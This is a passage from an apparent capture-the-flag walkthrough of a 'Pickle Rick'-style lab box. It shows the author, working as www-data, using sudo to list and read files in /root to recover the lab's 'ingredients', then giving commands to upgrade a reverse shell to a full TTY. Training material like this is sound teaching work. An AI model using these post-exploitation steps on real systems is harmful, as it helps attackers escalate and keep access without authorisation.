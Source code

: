 ```bash
www-data@ip-10-10-81-100:/home/rick$ cat "second ingredients"
cat "second ingredients"
1 ????? ????
www-data@ip-10-10-81-100:/home/rick$
```

Now lets hunt for the third ingredients lets list all files in root directory

```bash
www-data@ip-10-10-81-100:/home/rick$ cd /
cd /
www-data@ip-10-10-81-100:/$ sudo ls -la /root
sudo ls -la /root
total 36
drwx------  4 root root 4096 Jul 11  2024 .
drwxr-xr-x 23 root root 4096 Apr 21 13:30 ..
-rw-------  1 root root  168 Jul 11  2024 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-------  1 root root  702 Jul 11  2024 .viminfo
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
www-data@ip-10-10-81-100:/$
```

Her we find the file 3rd.txt now we just have to cat it to display the third ingredients

```bash
www-data@ip-10-10-81-100:/$ sudo cat /root/3rd.txt
sudo cat /root/3rd.txt
3rd ingredients: ????? ?????
www-data@ip-10-10-81-100:/$
```

> 🎯 **All 3 ingredients** recovered successfully!

---
# 🔄 Bonus: Upgrade to Full TTY for Better Shell Experience

From inside your reverse shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then, press:
```bash
CTRL-Z
```

In your terminal:

```bash
stty raw -echo; fg
```
